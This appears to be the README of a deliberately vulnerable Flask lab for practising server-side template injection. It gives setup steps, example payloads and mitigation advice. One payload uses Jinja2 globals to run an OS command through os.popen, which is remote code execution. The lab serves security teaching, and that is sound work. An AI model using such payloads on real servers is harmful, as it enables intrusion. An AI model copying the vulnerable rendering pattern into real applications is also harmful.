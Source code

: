# Template Injection Lab

This lab demonstrates Server-Side Template Injection (SSTI) vulnerabilities in a Flask application using Jinja2 templates. Users can create blog posts that are rendered using the template engine, making it vulnerable to template injection attacks.

## Getting Started

1. Build and run the lab using Docker Compose:
   ```bash
   docker-compose up --build
   ```

2. Access the lab at `http://localhost:5000`

## Vulnerability Description

The application creates blog posts by directly rendering user input as Jinja2 templates. This allows attackers to inject malicious template expressions that could lead to:
- Information disclosure
- Remote code execution
- Server file system access

### Example Payload

Try creating a blog post with the following content to test the template injection:
```
{{ 7 * 7 }}
```

For more advanced exploitation, try:
```
{{ config }}
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

## Learning Objectives

1. Understand how template injection vulnerabilities occur
2. Learn to identify vulnerable template usage in web applications
3. Practice exploiting template injection vulnerabilities
4. Understand secure template usage and mitigation strategies

## Security Best Practices

To prevent template injection:
1. Never use user input directly in template rendering
2. Use a sandboxed environment for template rendering
3. Apply proper input validation and sanitization
4. Use safe template contexts that limit available functions and objects

## References

- [OWASP Template Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server_Side_Template_Injection)
- [PayloadsAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
- [HackTricks - SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
